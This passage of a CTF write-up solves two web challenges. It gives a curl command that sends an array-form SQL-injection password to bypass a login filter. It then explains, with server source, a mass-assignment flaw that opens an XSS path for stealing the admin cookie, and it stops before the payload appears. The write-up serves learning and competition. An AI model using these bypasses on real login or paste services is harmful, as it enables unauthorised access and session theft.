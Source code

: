 Let's focus on bypassing the filter , I encountered this type of check algorithms a lot in previous CTFs so after seeing `` app.use(bodyParser.urlencoded({ extended: true }));`` I knew that we will try to use arrays to trick the filter. When the extended attribute of bodyparser is set to True we can use any type in the request parameters (When it's set to false we can only use strings or arrays). "Includes" function can be used for arrays and strings so if we pass the password as an array we will be able to bypass the filter. (I covered this technique in more details in the following **[writeup](https://ahmed-belkahla.me/post/angstromctf20/)**) . Finally running the following command we will get our flag:
```
curl -d "username=admin&password[]='or 1=1 -- -" https://missing-flavortext.dicec.tf/login
```
![FLAG](https://imgur.com/vjRONbL.png)

## Web Utils ##

![TASK](https://imgur.com/U8ZpCk8.png)

We have a website that have link sortener and pastebin functionalities, our goal is to steal the admin cookies so the first thing I thinked about is finding an XSS.

![TASK](https://imgur.com/qsD2mmS.png)

After exploring the existing fields in the website there was no obvious XSS, while I was exploring the source code I had the idea to try shortening a url of the following form ```javascript:alert(1);``` but there was a regex expression filtering the url format. 
```js
module.exports = async (fastify) => {
  fastify.post('createLink', {
    handler: (req, rep) => {
      const uid = database.generateUid(8);
      const regex = new RegExp('^https?://');
      if (! regex.test(req.body.data))
        return rep
          .code(200)
          .header('Content-Type', 'application/json; charset=utf-8')
          .send({
            statusCode: 200,
            error: 'Invalid URL'
          });
```
But focusing more on the source code we can notice this piece of code in the CreatePaste endpoint :

```js
  fastify.post('createPaste', {
    handler: (req, rep) => {
      const uid = database.generateUid(8);
      database.addData({ type: 'paste', ...req.body, uid });
      rep
        .code(200)
        .header('Content-Type', 'application/json; charset=utf-8')
        .send({
          statusCode: 200,
          data: uid
        });
    },
```
The following line is pretty juicy 
```js
database.addData({ type: 'paste', ...req.body, uid });
```
Any parameter we will send in the request's body will be passed to the addData function so we can change the type of the added data to "link" and get rid of the regex expression in the CreateLink endpoint, so the payload will be :
